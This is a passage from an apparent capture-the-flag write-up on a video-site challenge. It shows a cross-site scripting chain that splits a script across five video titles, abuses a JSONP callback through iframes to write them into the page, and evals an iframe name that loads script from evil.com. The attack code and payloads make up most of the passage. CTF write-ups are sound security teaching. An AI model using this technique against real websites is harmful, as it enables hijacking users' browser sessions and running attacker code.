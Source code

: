 #### 1. Hiding the HTML

We create five videos, each one with a different title. The example we'll run with is:

| Title | UUID |
| ----- | ---- |
| `<script>/*` | 48a1e399-be90-4d8b-90ad-6ab397357601 |
| `*/eval(/*` | 20489263-0089-4ba6-8a17-d9636bbb2427 | 
| `*/top[1]/*` | 49b45827-6a3d-41ec-bcd6-6d9b83410221 | 
| `*/.name)//` | 5a835c81-26f9-427e-ba80-95aecd7d0c03 |
| `</script>` | 883fd186-24c8-480d-98b4-0c1e47e72fd2 |

#### 2. Collecting the HTML and Rendering it

We create an HTML page on our own server (`http://evil.com/some.html`):

```html
<iframe src="https://somevideos.appsecil.ctf.today/" name="x" onload="go()"></iframe>
<iframe id="y" name="s = document.createElement('script'); s.src='http://evil.com/some.js';document.head.appendChild(s);"></iframe>

<script>
function loadIframe(uid){
    return new Promise(resolve => {
        y.src = `https://somevideos.appsecil.ctf.today/videos/view?id=${uid}%26callback=top.x.document.write%23#debug`;
        y.onload = function(){
            return resolve(this);
        }
    });
}

async function go(){
    await loadIframe("48a1e399-be90-4d8b-90ad-6ab397357601"); // <script>/*
    await loadIframe("20489263-0089-4ba6-8a17-d9636bbb2427"); // */eval(/*
    await loadIframe("49b45827-6a3d-41ec-bcd6-6d9b83410221"); // */top[1]/*
    await loadIframe("5a835c81-26f9-427e-ba80-95aecd7d0c03"); // */.name)//
    await loadIframe("883fd186-24c8-480d-98b4-0c1e47e72fd2"); // </script>
}
</script>
```

When someone visits this page, what will happen is:

1. The `x` iframe will load the target website
2. When the iframe has fully loaded, it will call `go()`
3. `go()` will start smuggling the HTML into the `x` iframe via the `y` iframe. Each time, it will call `top.x.document.write` writing the current JSON object to the DOM.
4. When all the HTML is smuggled to the DOM, we end up with:

```html
{"success":true,"data":{"title":"<script>/*","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}{"success":true,"data":{"title":"*/eval(/*","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}{"success":true,"data":{"title":"*/top[1]/*","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}{"success":true,"data":{"title":"*/.name)//","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}{"success":true,"data":{"title":"</script>","description":"test","source":"https://test-videos.co.uk/vids/bigbuckbunny/mp4/h264/1080/Big_Buck_Bunny_1080_10s_20MB.mp4"}}
```
